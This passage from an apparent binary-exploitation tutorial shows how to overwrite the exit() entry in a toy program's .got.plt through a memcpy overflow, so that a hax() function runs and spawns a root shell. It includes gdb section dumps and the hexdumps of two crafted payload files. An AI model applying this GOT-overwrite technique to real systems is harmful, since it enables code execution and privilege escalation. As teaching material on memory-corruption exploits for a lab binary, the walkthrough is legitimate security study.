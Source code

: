 (gdb) x/gx 0x601020
0x601020 :	0x0000000000400406
-----------------------------------

We see at main+20 that instead of calling exit inside libc directly, 0x400400 is
called, which is a stub inside the plt. It jumps to whatever address is located
at 0x601020, inside the got.plt. Now in this case this is an address back 
inside the stub again, which resolves the address of the function inside libc, 
and replaces the entry in 0x601020 with the real address of exit. So whenever
exit is called, the address 0x601020 is used regardless of whether the real
address has been resolved yet or not. So, we need to overwrite this location 
with the address of the hax() function, and the program will execute that 
function instead of exit(). So for our example vulnerability, we need to locate
where the entry to exit is inside the .got.plt, overwrite the pointer in the 
structure with this address, and then fill the data2 buffer with the pointer to
the hax() function. The first call will then overwrite the item1.next pointer
with the pointer to the exit entry inside got.plt, the second call will 
overwrite this location with the pointer to hax(). After that, exit() is called
so our pointer is used and hax() will execute, spawning a root shell. Let's go!
Oh, one more thing: because the entry of execl() is located right after the
entry of exit() and our memcpy call will copy 48 bytes, we need to make sure 
that this pointer is not wrecked by including it in our payload. 

-----------------------------------
(gdb) mai i sect .got.plt
Exec file:
    `/tmp/stackvuln/stackvuln', file type elf64-x86-64.
    0x00601000->0x00601050 at 0x00001000: .got.plt ALLOC LOAD DATA HAS_CONTENTS
(gdb) x/10gx 0x601000
0x601000:	0x0000000000600e28	0x0000000000000000
0x601010:	0x0000000000000000	0x0000000000400526
0x601020 < fclose@got.plt>:	0x0000000000400536	0x0000000000400546
0x601030 < memcpy@got.plt>:	0x0000000000400556	0x0000000000400566
0x601040 < exit@got.plt>:	0x0000000000400576	0x0000000000400586
(gdb) p hax
$1 = {< text variable, no debug info >} 0x40073b 
-----------------------------------

Okay, so the entry of exit is at 0x601040, and hax() is at 0x40073b. Let's
construct our payloads:

-----------------------------------
$ hexdump data1.dat -vC
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000020  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000030  40 10 60 00 00 00 00 00                           |@.`.....|
00000038
$ hexdump data2.dat -vC
00000000  3b 07 40 00 00 00 00 00  86 05 40 00 00 00 00 00  |;.@.......@.....|
00000010
-----------------------------------
